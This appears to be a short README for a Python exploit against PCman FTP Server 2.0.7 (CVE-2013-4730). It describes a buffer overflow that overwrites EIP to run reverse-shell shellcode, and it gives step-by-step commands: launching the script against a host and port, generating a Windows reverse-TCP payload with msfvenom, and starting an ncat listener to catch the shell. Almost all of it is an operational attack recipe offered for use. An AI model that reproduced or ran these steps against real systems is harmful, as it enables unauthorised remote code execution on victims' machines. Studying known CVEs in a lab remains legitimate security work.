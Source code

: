 # PCman FTP Server Buffer overflow and Remote Code Execution [CVE-2013-4730]
A very simple buffer overflow using CVE-2013-4730 against PCman's FTP server v.2.0.7
## How it works?
That easy BoF overwrite the buffer and the EIP and execute the shellcode that will connect back (reverse shell)
## launch
````~$ python3 PCman.py <host> <port>````
## Repleace the shellcode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Launch netcat 
````~$ ncat -lvp <shellcode port>
